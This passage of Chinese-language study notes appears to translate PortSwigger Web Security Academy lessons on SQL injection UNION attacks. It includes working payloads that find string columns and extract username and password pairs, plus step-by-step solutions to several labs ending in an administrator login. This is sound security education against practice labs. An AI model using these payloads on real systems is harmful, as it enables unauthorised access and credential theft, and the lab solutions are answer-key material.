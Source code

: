 ```SQL
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--
```

如果欄位資料類型與字串資料不相容，注入的查詢語句會導致資料庫錯誤，例如：
`Conversion failed when converting the varchar value 'a' to data type int.`

如果沒有發生錯誤，且應用程式的回應包含一些額外內容，包括注入的字串值，那麼相關欄位就適合擷取字串資料。

* **Lab: [SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)**
  1. 題目敘述說明 `category` 的篩選地方存在 SQLi 漏洞，使其回傳此 Lab 提供的隨機字串即可通關
  2. 根據上一個 Lab 得知總共有 3 個欄位，再次確認欄位數量：`/filter?category=Lifestyle' UNION SELECT NULL,NULL,NULL--`
  3. 嘗試判斷哪個欄位是字串型態：
      ```SQL
      /filter?category=Lifestyle' UNION SELECT 'a',NULL,NULL--
      /filter?category=Lifestyle' UNION SELECT NULL,'a',NULL--
      /filter?category=Lifestyle' UNION SELECT NULL,NULL,'a'--
      ```
  4. 經過測試確認第二個欄位為字串型態
  5. 將隨機字串帶入後通關：`/filter?category=Lifestyle' UNION SELECT NULL,'your-random-string',NULL--`

#### 使用 SQL 注入 UNION 攻擊來擷取有趣的資料

當您確定了原始查詢語句返回的欄位數量，並找到哪些欄位可以容納字串資料時，您就可以擷取有趣的資料了。

假設：

* 原始查詢語句返回兩個欄位，兩者都可以容納字串資料。
* 注入點是 `WHERE` 子句中的引號字串。
* 資料庫包含一個名為 `users` 的資料表，其欄位為 `username` 和 `password`。

在此範例中，您可以透過提交以下輸入來擷取 `users` 資料表的內容：
`' UNION SELECT username, password FROM users--`

要執行此攻擊，您需要知道有一個名為 `users` 的資料表，其中有兩個名為 `username` 和 `password` 的欄位。如果沒有這些資訊，您就必須猜測資料表和欄位的名稱。所有現代資料庫都提供檢查資料庫結構的方式，並確定它們包含哪些資料表和欄位。

* **Lab: [SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)**
  1. 題目敘述說明 `category` 的篩選地方存在 SQLi 漏洞，已知 `users` 的資料表中有兩個欄位 `username` 和 `password`，取得 `administrator` 的密碼並登入即可通關
  2. 取得 `users` 資料表中的所有帳號密碼：`/filter?category=Lifestyle' UNION SELECT username,password FROM users--`
  3. 使用 `administrator` 使用者的帳號密碼登入後通關

#### 在單一欄位中擷取多個值

在某些情況下，前面範例中的查詢語句可能只返回單一欄位。

您可以透過將值串接在一起，在這個單一欄位中一起擷取多個值。您可以包含分隔符號來讓您區分組合的值。例如，在 Oracle 上您可以提交以下輸入：
`' UNION SELECT username || '~' || password FROM users--`

這使用了雙管道序列 `||`，它是 Oracle 上的字串串接運算子。注入的查詢語句將 `username` 和 `password` 欄位的值串接在一起，並用 `~` 字元分隔。
